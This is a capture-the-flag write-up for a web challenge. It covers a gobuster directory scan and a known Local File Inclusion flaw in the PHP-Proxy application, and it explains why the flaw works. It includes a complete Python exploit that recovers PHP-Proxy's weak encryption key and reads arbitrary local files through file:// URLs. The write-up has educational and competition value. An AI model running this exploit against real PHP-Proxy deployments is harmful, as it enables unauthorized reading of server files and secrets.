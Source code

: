 ```yaml
---
description: N-day Local File Inclusion (LFI) vulnerability in PHP-Proxy.
---
```


# Space Station

## Description

Where do you want to go?

`http://20.198.209.142:55047`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

## Solution

Going to the given site only shows `Hello Mars!`.

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.03.46-am.png)



Performing a simple directory busting scan, we find some interesting information.

```text
└─# gobuster dir -u http://20.198.209.142:55047/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 10
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://20.198.209.142:55047/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2021/07/23 23:06:33 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/app (Status: 301)
/flag.txt (Status: 403)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/07/23 23:06:52 Finished
===============================================================
```

We find a `/flag.txt`, but we cannot view it. Let's keep in mind that the flag is in web root for now. 

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.09.17-am.png)

Going to `/app` gives us a web proxy application.

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.11.57-am.png)

We can enter any URL, and the corresponding page will be rendered on our browser. At the bottom of the page, we find that this application is "Powered by PHP-Proxy" and a [link](https://www.php-proxy.com/) is given.

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.14.36-am.png)

This link leads us to the GitHub repository, where a search for Issues containing the word "vulnerability" yields several results.

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.15.00-am.png)

A currently open and unfixed issue is that PHP-Proxy \(all versions\) suffers from a Local File Inclusion \(LFI\) vulnerability: [https://github.com/Athlon1600/php-proxy-app/issues/135](https://github.com/Athlon1600/php-proxy-app/issues/135). We can also find more details here: [https://github.com/0xUhaw/CVE-Bins/tree/master/PHP-Proxy](https://github.com/0xUhaw/CVE-Bins/tree/master/PHP-Proxy)

### The Exploit

The exploit script is already provided in the GitHub issue above.

```python
import requests
import base64

def encrypt(plaintext, key):
    key_length = len(key)
    key_as_int = [ord(i) for i in key]
    plaintext_int = [ord(i) for i in plaintext]
    ciphertext = []
    for i in range(len(plaintext_int)):
        value = (plaintext_int[i] + key_as_int[i % key_length]) % 256
        ciphertext.append(value)
    return bytes(ciphertext)

def calculate_key(ciphertext, plaintext):
    key = []
    for i in range(0, len(ciphertext)):
        if ciphertext[i] - ord(plaintext[i]) < 0:
            key.append(chr(ciphertext[i] - ord(plaintext[i]) + 256))
        else:
            key.append(chr(ciphertext[i] - ord(plaintext[i])))

    return "".join(key[:32])

def exploit(url, file_to_read):
    r = requests.post(url + '/index.php', data={'url': 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'}, allow_redirects=False)

    b64_url_ciphertext = r.headers['location'].split('?q=')[1]
    b64_url_ciphertext = b64_url_ciphertext + "=" * (len(b64_url_ciphertext) % 4)
    url_ciphertext = base64.b64decode(b64_url_ciphertext)
    url_plaintext = 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'

    key = calculate_key(url_ciphertext, url_plaintext)
    return requests.get(url + '/index.php', params={'q': base64.b64encode(encrypt(file_to_read, key))}).text

print(exploit('http://20.198.209.142:55047/app', 'file:///var/www/html/flag.txt'))
```

Running the script gives us the flag, `STC{l0cal_f1l3_1nclus10n_328d47c2ac5b2389ddc47e5500d30e04}`

![](../../.gitbook/assets/screenshot-2021-07-24-at-11.24.34-am.png)

To understand why the exploit works, read on below!

### The Vulnerability

When visiting a page through PHP-Proxy, the `q=` parameter is used. This is the URL we are visiting, encrypted using an app key in the package configuration.

The encryption key is generated as follows:

```php
Config::set('encryption_key', md5(Config::get('app_key').$_SERVER['REMOTE_ADDR']));
```

The URL is encrypted as follows:

```php
$url = str_rot_pass($url, $key);
```

The following encryption function is not secure enough. It simply takes every character of the key and adds it to the original plaintext. Since we know both the plaintext \(the original URL\) and the ciphertext \(the `q=` parameter\), we can easily reverse-engineer the key.

```php
// rotate each string character based on corresponding ascii values from some key
function str_rot_pass($str, $key, $decrypt = false){

    // if key happens to be shorter than the data
    $key_len = strlen($key);

    $result = str_repeat(' ', strlen($str));

    for($i=0; $i<strlen($str); $i++){

        if($decrypt){
            $ascii = ord($str[$i]) - ord($key[$i % $key_len]);
        } else {
            $ascii = ord($str[$i]) + ord($key[$i % $key_len]);
        }

        $result[$i] = chr($ascii);
    }

    return $result;
}
```

Then, after getting the key, it is simply a matter of encrypting `file:///var/www/html/flag.txt` since the `file://` protocol is not explicitly banned.

